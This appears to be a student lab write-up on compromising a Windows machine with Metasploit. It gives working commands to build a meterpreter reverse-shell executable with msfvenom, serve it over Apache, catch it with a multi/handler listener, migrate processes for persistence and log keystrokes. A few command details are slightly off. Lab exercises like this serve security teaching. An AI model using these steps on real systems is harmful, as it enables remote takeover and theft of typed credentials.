 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By
- **Keerthivasan M**
- **212223100021**
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

![image](https://github.com/user-attachments/assets/b98e3dbe-cbf4-465e-83aa-f1ac913b2a51)

Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:

![image](https://github.com/user-attachments/assets/094f111d-38e4-47a4-b950-8c0544a3463e)

copy the fun.exe into the apache ```/var/www/html ```folder

![image](https://github.com/user-attachments/assets/1a19f712-d904-4e9a-9c3f-a0f824215d01)

Start apache server ```sudo systemctl apache2 start``` 

![image](https://github.com/user-attachments/assets/2944d067-02b2-43fc-9487-5f9e71c393b7)

Check the status of apache2 ```sudo apache2 status```

![image](https://github.com/user-attachments/assets/1577dcc8-8e32-4080-8459-521367056dc0)

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
![image](https://github.com/user-attachments/assets/d6bd1bdb-3064-45e8-b6b1-e22d2e80209f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/7be60e9f-2ce3-487a-9668-8bdb282e8931)

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

![image](https://github.com/user-attachments/assets/596d3916-66f9-4605-8ae4-5dd21116b77a)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/d53176fa-7af0-4f05-b526-91713074335d)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/ec7c391d-62a6-4fdc-a2c3-ef383b6c8a57)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
